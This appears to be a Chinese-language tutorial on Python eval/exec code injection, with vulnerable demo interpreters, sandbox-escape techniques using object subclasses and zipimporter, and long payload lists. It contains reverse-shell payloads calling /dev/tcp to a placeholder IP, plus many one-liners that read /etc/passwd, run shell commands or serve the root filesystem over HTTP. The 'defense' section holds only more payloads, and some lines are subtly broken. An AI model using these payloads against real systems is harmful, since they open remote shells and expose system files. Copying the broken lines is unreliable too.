

简介
python中可以产生代码注入的函数主要是eval和exec，eval用于执行python代码表达式，exec用于执行python代码段；此外，python2中，内置的input函数等效于eval(raw_input)可产生代码注入
文章目录
- 无限制，利用内建函数渗透
- 限制内建函数的使用，使用元类渗透
- 防御代码注入
- payloads
一、无限制，利用内建函数渗透
code demo11
2
3
4
5
6
7
8
9
10
11
12def run(cmd):
print(eval('%s' % cmd))
if __name__ == '__main__':
while 1:
cmd = input('cmd >')
if cmd in ['q', 'quit', 'exit']:
break
try:
run(cmd)
except Exception as e:
print(e)
通过dir(builtins)查看内建变量和内建函数，1
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
其中，__import__用于导入模块，eval用于执行python代码表达式，exec用于执行python代码段，compile用于动态构建python对象(变量、方法等)
payload 1:__import__('os').system('/bin/sh -i >& /dev/tcp/<ip>/<port> 0>&1')：可以执行；
payload 2:exec("""import os;os.system('/bin/sh -i >& /dev/tcp/<ip>/<port> 0>&1')""")：可以执行；
payload 3:compile("""import os;os.system('/bin/sh -i >& /dev/tcp/<ip>/<port> 0>&1')""", 'a', 'single')：无法执行，可以构建对象，但是无法执行；
二、限制内建函数，使用元类渗透
code demo21
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18def run(cmd):
env = {}
env["locals"] = None
env["globals"] = None
env["__name__"] = None
env["__file__"] = None
env["__builtins__"] = None
print(eval('%s' % cmd, env))
if __name__ == '__main__':
while 1:
cmd = input('cmd >')
if cmd in ['q', 'quit', 'exit']:
break
try:
run(cmd)
except Exception as e:
print(e)
上面的代码中，显示指定了globals为None，locals为None，__builtins__为None，所以在eval方法中无法直接调用python内建变量和方法、当前运行上下文对象等；
python中一切皆为类，一切对象皆为元类的子对象，因此可以通过任一对象访问到object类，然后利用object对象的子类
首先输入'owef'.__class__查看字符串owef所属的类，然后输入'owef'.__class__.__base__访问基类，输入'owef'.__class__.__base__.__subclasses__()访问object类的子类；在object的子类中，”zipimporter”用于从egg安装包中动态导入python模块，在被攻击机器上提前防止configobj的egg安装包或zip安装包，使用[ x for x in 'owef'.__class__.__base__.__subclasses__() if x.__name__ == 'zipimporter' ][0]('/Users/shengnanwu/Documents/workspace/hacker/tools/python_exploit/configobj-5.0.6.egg').load_module('configobj').os.system('whoami')进行动态加载模块，执行操作系统命令；

防御代码注入
感谢@提供的一份payload list
python2 list1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m SimpleHTTPServer')
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
(lambda fc=(lambda n: [ c for c in ().__class__.__bases__[0].__subclasses__() if c.__name__ == n ][0]): fc("function")( fc("code")(0,0,0,0,"KABOOM",(),(),(),"","",0,""),{})())()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['xrange'](-999999999,99999999))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').system('cd /; python -m SimpleHTTPServer'))
pythond3 list1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35print('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
exit()
sum(xrange(-999999999,99999999))
file('/etc/passwd').read()
open('/etc/passwd').read()
__import__['fileinput'].input('/etc/passwd')
__import__['os'].system('cat /etc/passwd')
__import__['os'].popen('/etc/passwd', 'r').read()
__import__['os'].system('cd /; python -m http.server')
print(file('/etc/passwd').read())
print(open('/etc/passwd').read())
print(__import__['fileinput'].input('/etc/passwd'))
print(__import__['os'].system('cat /etc/passwd'))
print(__import__['os'].popen('/etc/passwd', 'r').read())
print(__import__['os'].system('cd /; python -m SimpleHTTPServer'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']('THIS IS A PYTHON EVAL INTERPRETED OUTPUT')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['exit']()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['sum']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['xrange'](-999999999,99999999))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['open']('/etc/passwd').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('fileinput').input('/etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cat /etc/passwd')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('/etc/passwd', 'r').read()
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cd /; python -m SimpleHTTPServer')
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['file']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['open']('/etc/passwd').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('fileinput').input('/etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cat /etc/passwd'))
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').popen('/etc/passwd', 'r').read())
[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['print']([x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'Pattern'][0].__init__.__globals__['__builtins__']['__import__']('os').system('cd /; python -m SimpleHTTPServer'))